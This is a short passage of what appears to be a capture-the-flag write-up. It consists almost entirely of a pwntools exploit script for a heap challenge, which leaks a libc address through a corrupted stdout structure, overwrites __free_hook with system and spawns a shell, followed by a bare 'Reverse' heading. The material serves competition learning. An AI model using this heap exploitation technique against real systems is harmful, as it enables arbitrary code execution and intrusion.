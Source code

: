 ```
edit('bbbbb')
bye('1')
delete('8')
edit('bbbbb')

edit('bbbbb')
bye('1')

add('\xf0')

add('1')
add('2')
payload=p64(0xfbad1887)+p64(0)*3+'\x00'
add(payload)
#edit('\x11')
add(payload)

p.recv(8)
leak=u64(p.recv(8))
libcbase=leak-(0x7ffff7fc1980-0x00007ffff7dd5000)

add('3')

delete('1')

delete('2')

delete('3')
#delete('bbb')

edit('bbbbb')

bye('1')
system=libcbase+libc.sym['system']
freehook=libcbase+libc.sym['__free_hook']
add(p64(freehook))
add('/bin/sh\x00')
add('/bin/sh\x00')
add(p64(system))

print hex(freehook)
#gdb.attach(p,'b *0x00005555555559cc')
#raw_input()
delete('/bin/sh\x00')

p.interactive()
```

**Reverse**

![](https://mmbiz.qpic.cn/mmbiz_jpg/Gw8FuwXLJnTFyibjANBPusict5SjpSML2skvb6MnVBQpBA94SOicbCfMHYn5iaPPrZiaAicn5nr3SFicQrjQhwo089nPA/640?wx_fmt=jpeg)
